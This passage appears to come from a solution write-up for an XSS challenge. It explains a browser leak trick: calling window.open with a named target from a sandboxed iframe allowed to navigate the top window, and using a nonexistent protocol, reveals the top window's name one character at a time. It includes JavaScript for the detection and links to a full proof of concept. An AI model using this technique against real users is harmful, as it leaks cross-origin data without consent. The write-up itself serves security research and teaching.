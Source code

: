 Let's look at: `window.open('//url', 17)`. It tries to open a new popup with the name `17`. But what happens if there is already a window with such a name? Then it attempts to redirect it instead. And it's possible to detect whether there was an attempted navigation or a popup. 

*TL;DR:* use a sandboxed iframe to call `window.open()`, that way popups will be blocked, but set `sandbox=allow-top-navigation` to allow top navigation changes. To prevent real navigation from happening one can use an unknown protocol such as `xxxx://non-existent`. Then the detection could look like:

```js 
async function getTopName() {
    let i = 0;
    // it's just magic. tl;dr chrome and firefox work differently 
    // but this polyglot works for both;
    for (; i < alph.length + 1; i++) {
        let res = await (async () => {
            let x;
            try {
                // shouldn't trigger new navigation
                x = testFrame.open('xxxx://no-trigger', i + lastValue);
                // this is for firefox
                if (x !== null) return 1;
                return;
            } catch (e) {}
        })();
        if (res) break;
    }
    return i + lastValue;
}
```

The full-blown PoC is available here: [easterxss.terjanq.me/t-solution.html](https://easterxss.terjanq.me/t-solution.html) ([source](https://github.com/terjanq/Easter-xss-challenge/blob/main/t-solution.html))
